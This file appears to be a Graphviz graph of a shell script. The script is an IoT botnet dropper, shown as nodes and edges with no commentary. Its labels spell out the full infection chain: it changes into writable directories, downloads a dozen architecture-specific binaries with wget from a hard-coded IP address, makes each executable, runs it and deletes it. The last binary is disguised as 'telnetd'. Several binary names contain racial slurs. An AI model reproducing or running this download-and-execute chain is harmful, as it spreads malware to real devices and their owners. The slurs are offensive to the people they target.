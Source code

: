 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://198.7.57.23/niggermips "];
10 -> 12 [label=";,"];
12 [label="chmod +x niggermips "];
12 -> 14 [label=";,"];
14 [label="./niggermips "];
14 -> 16 [label=";,"];
16 [label="rm -rf niggermips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://198.7.57.23/mipseleatsass "];
28 -> 30 [label=";,"];
30 [label="chmod +x mipseleatsass "];
30 -> 32 [label=";,"];
32 [label="./mipseleatsass "];
32 -> 34 [label=";,"];
34 [label="rm -rf mipseleatsass "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://198.7.57.23/shutup4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x shutup4 "];
48 -> 50 [label=";,"];
50 [label="./shutup4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf shutup4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://198.7.57.23/multiply86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x multiply86 "];
66 -> 68 [label=";,"];
68 [label="./multiply86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf multiply86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://198.7.57.23/Armv61hoe "];
82 -> 84 [label=";,"];
84 [label="chmod +x Armv61hoe "];
84 -> 86 [label=";,"];
86 [label="./Armv61hoe "];
86 -> 88 [label=";,"];
88 [label="rm -rf Armv61hoe "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://198.7.57.23/fukawget "];
100 -> 102 [label=";,"];
102 [label="chmod +x fukawget "];
102 -> 104 [label=";,"];
104 [label="./fukawget "];
104 -> 106 [label=";,"];
106 [label="rm -rf fukawget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://198.7.57.23/peepeeceeeeee "];
118 -> 120 [label=";,"];
120 [label="chmod +x peepeeceeeeee "];
120 -> 122 [label=";,"];
122 [label="./peepeeceeeeee "];
122 -> 124 [label=";,"];
124 [label="rm -rf peepeeceeeeee "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://198.7.57.23/eye586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x eye586 "];
138 -> 140 [label=";,"];
140 [label="./eye586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf eye586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://198.7.57.23/msix8k "];
154 -> 156 [label=";,"];
156 [label="chmod +x msix8k "];
156 -> 158 [label=";,"];
158 [label="./msix8k "];
158 -> 160 [label=";,"];
160 [label="rm -rf msix8k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://198.7.57.23/shhhhhhh "];
172 -> 174 [label=";,"];
174 [label="chmod +x shhhhhhh "];
174 -> 176 [label=";,"];
176 [label="./shhhhhhh "];
176 -> 178 [label=";,"];
178 [label="rm -rf shhhhhhh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://198.7.57.23/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://198.7.57.23/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://198.7.57.23/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
